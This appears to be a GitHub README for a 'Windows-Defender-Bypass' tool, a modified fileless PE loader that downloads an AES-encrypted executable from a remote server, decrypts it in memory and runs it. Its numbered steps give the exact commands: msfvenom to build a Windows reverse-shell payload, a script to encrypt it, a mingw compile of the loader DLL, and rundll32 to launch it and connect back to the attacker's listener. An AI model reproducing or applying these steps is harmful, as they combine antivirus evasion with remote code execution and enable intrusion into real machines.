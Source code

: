 # Windows-Defender-Bypass

Tested on 31-07-2023.  [Defender may detect it at the time of you using this. Feel free to do any modifications.]

https://github.com/Dharani-sanjaiy/Windows-Defender-Bypass/assets/72503981/39c6bada-72d8-4a2a-a470-bf498a4d18cd

This is a modified version of @TheD1rkMtr's FilelessPELoader program. The link to the original repo is https://github.com/TheD1rkMtr/FilelessPELoader/. 
It works by loading Remote AES Encrypted PE in memory, decrypts it and run it.


STEPS TO REPRODUCE:
1. Clone the repository.

2. Edit the IP , port in FilelessPELoader.cpp script.

3. Use the aes.py script to create encrypted bin files.

   In the POC, I generated the reverse shell payload using msfvenom and encrypted it using aes.py. The syntax for the same is

```msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=PORT -f exe -o shell.exe```

```python3 aes.py shell.exe```

Successfull execution of the above command will create two files named cipher.bin and key.bin. [ If you rename these files, make sure to change the names in FilelessPELoader.cpp file as well ]

4. Use the following command to compile FilelessPELoader.cpp to a dll.
```x86_64-w64-mingw32-g++ FilelessPELoader.cpp -l winhttp -shared --static -o a.dll```

5.Once dll is created, start the web server and your listener.

6. Transfer the dll to a windows machine.

7. Open command prompt and run the following command.

```rundll32 a.dll, DllRegistryServer```

8. After a second, You will see the connection in your terminal where you started your listener.
